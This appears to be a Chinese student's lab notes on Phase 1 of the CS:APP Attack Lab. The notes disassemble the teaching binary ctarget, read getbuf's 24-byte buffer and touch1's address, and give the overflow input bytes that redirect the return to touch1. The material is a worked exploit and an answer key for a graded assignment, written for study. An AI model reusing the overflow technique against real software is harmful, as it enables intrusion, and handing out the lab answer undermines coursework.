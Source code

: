 # 更适合北大宝宝体质的 Attack Lab 踩坑记

> [!CAUTION]
>
> **致各位同学：本笔记的撰写目的是用作参考，请勿直接抄袭，否则后果自负。**

写在前面：这篇是我第一篇 lab 笔记博文，写的比较粗糙，请见谅。

## Phase 1

首先，进行反编译以得到汇编代码：

```bash
objdump -t ctarget > ctarget.s
```

查找 `getBuf()` 函数确定调用分配的空间：

```asm
0000000000401e5a <getbuf>:
  401e5a:	f3 0f 1e fa          	endbr64
  401e5e:	48 83 ec 18          	sub    $0x18,%rsp
  401e62:	48 89 e7             	mov    %rsp,%rdi
  401e65:	e8 cd 03 00 00       	call   402237 <Gets>
  401e6a:	b8 01 00 00 00       	mov    $0x1,%eax
  401e6f:	48 83 c4 18          	add    $0x18,%rsp
  401e73:	c3                   	ret
```

发现分配了 `0x18 = 24` 的空间地址

继续查找 `touch1` 函数所在地址：

```asm
0000000000401f24 <touch1>:
  401f24:	f3 0f 1e fa          	endbr64
  401f28:	50                   	push   %rax
  401f29:	58                   	pop    %rax
  401f2a:	48 83 ec 08          	sub    $0x8,%rsp
  401f2e:	c7 05 e4 55 00 00 01 	movl   $0x1,0x55e4(%rip)        # 40751c <vlevel>
  401f35:	00 00 00
  401f38:	48 8d 3d d7 23 00 00 	lea    0x23d7(%rip),%rdi        # 404316 <_IO_stdin_used+0x316>
  401f3f:	e8 6c f3 ff ff       	call   4012b0 <puts@plt>
  401f44:	bf 01 00 00 00       	mov    $0x1,%edi
  401f49:	e8 5b 05 00 00       	call   4024a9 <validate>
  401f4e:	bf 00 00 00 00       	mov    $0x0,%edi
  401f53:	e8 b8 f4 ff ff       	call   401410 <exit@plt>
```

发现是在 `0x401f24` 处。

于是得出输入字符串（注意每一行结尾似乎都应该还有一个空格）：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
24 1f 40 00
```
